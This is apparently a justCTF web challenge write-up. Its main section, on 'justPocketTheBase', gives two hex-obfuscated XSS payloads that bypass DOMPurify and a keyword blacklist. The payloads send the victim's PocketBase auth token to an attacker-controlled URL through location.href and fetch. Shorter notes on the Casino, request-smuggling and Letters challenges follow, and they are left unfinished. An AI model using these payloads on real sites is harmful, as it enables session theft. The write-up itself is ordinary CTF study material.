 ## justPocketTheBase
Points: 500
zazolcgeslajazn
WEB

The thing I love the most about ready-to-use backends and frameworks is that they are always secure :)

    http://justpocketthebase.web.jctf.pro

    https://s3.cdn.justctf.team/c5536ebc-945a-4fa7-af34-f064b29916d0/justpocketthebase_docker.tar.gz


- The application uses pocketbase javascript package in the version v0.22.12


It has a bot that uses the flag username to go to `http://localhost/view-plant?id=${id}` when we request `app.post('/report')` and send a id that is not null and is a string: 


```js
if (!req.body.id) {
			throw new Error('Invalid input.');
		}
		if (typeof req.body.id !== 'string') {
			throw new Error('Invalid input.');
		}
```

```js

export const report = async (id) => {
	if (!/^[a-zA-Z0-9]+$/.test(id) || id.length > 32) {
		throw new Error('Invalid id');
	}
	const browser = await puppeteer.launch({
		headless: 'new',
		pipe: true,
		args: ['--disable-gpu', '--no-sandbox', '--js-flags=--noexpose_wasm,--jitless'],
		executablePath: '/usr/bin/chromium-browser'
	});
	const page = await browser.newPage();
	await page.goto('http://localhost');
	await page.type('input[type=text]', 'flag');
	await page.type('input[type=password]', PASSWORD);
	await page.click('button', { text: 'enter' });
	await page.waitForFunction(() => document.body.innerText.includes('Logged as'));
	await page.goto(`http://localhost/view-plant?id=${id}`);
	await sleep(15_000);
	await page.goto('http://localhost');
	await page.click('button', { text: 'Logout' });
	await browser.close();
};


```

The flag user has the flag in its plants collection:

```js
const seed = async (pb) => {
	const token = pb.authStore.baseToken;
	await createTable(token);
	const user = await pb.collection("users").create({
		username: "flag",
		password: flagPassword,
		passwordConfirm: flagPassword,
	});
	const flagFile = fs.readFileSync("./plants/polant.png");
	const formData = new FormData();
	formData.append("title", "flag");
	formData.append("creator", user.id);
	formData.append("img", new Blob([flagFile]), "flag.png");
	await pb.collection("plants").create(formData);
};
```


We can create plants however when the bot looks at the it will run dompurify and a blacklist against the tile:

```js
onMount(async () => {
		const params = new URLSearchParams(window.location.search);
		id = params.get('id');
		try {
			plant = await pb.collection('plants').getOne(id);
		} catch (error) {
			window.location.href = '/';
		} finally {
			isLoading = false;
		}
		setTimeout(() => {
			const sanitizedTitle = DOMPurify.sanitize(plant.title);
			const newTitleElement = document.createElement('div');
			newTitleElement.classList.add('title');
			newTitleElement.innerHTML = sanitizedTitle;
			const safe = newTitleElement.innerText;
			try {
				if (blacklist.some((word) => safe.toLowerCase().includes(word))) {
					throw new Error('not safe!!!');
				}
				title.innerHTML = safe;
			} catch (err) {
				window.location.href = '/';
			}
		}, 100);
	});
```

Additionally the image is inserted as background:

![1718453741422](image/writeup/1718453741422.png)

FInal Payload:

```

&lt;img src=x onerror=location.href=`\x2f\x2f<URL>\x2f${localStorage.getItem`pocketbase\x5fauth`}`&gt;
```

ANother payload:
- not purified
- i tags are remvove by text
- \x to escape stuff from blacklist

```
<i><</i>img src=a onerror=setTimeout`f\x65tch\x28\x22http\x3a\x2f\x2f<your-ip>\x3a8080\x2f\x22\x2blocalStorage.getItem\x28\x22pocketbase\x5fauth\x22\x29\x29`>
```

## Casino

Although the odds of winning are rigged, this casino is 100% fair! Can you win against the house?

The following its a game where we bet our balance with guesses that are generated "randomly".
The following function is the one that generates the right guess:

```js
let roll = (seedrandom(JSON.stringify({
        serverSeed: req.user.serverSeed,
        clientSeed,
        nonce: req.user.nonce++
    })).int32() >>> 0) % 6 + 1
```

We have client seed, the previous server seed, the previous server seed hash, the new server seed hash and the nonce.

## Bypass Backlash: Route Exploration

We've created the best hacker art ever! Wanna take a look?

```ruby
def serve
    # Make a request to the njs script to validate the image
    image_url = url_for(request.query_parameters.merge(controller: 'avatars', action: 'get', host: 'justcattheimages.s3.eu-central-1.amazonaws.com', subdomain: false, domain: 'justcattheimages.s3.eu-central-1.amazonaws.com', protocol: 'http', only_path: false, port: 80))
    image = HTTParty.get("http://nginx:8000/fetch?url=#{image_url}")
    send_data image, type: 'image/jpeg', disposition: 'inline'
  end
```

I think its a request smuggler because you cant call the /flag endpoitn directly, you need to use the avatar endpoint to fetch the image and call the same time the flag endpoint. However we need to bypass the following verification:

```js
function valid_url(r) {
    // Retrieve the URL parameter from the request
    var targetUrl = r.args.url;
    r.log(targetUrl);
    return targetUrl.match(/^https?:\/\/justcattheimages\.s3\.eu-central-1\.amazonaws\.com\/img\/[a-z]+\.jpg$/m) ? "" : "Forbidden"
}
```




## Letters

Simple letter service which (kinda) supports markdown

This is a python service that allows to create letters with title, recipient and content. The content is then rendered with markdown: `content=markdown2.markdown(letter.content)`. However the content needs to be in the following regex: `^[a-zA-Z0-9 \n#_*]+$`.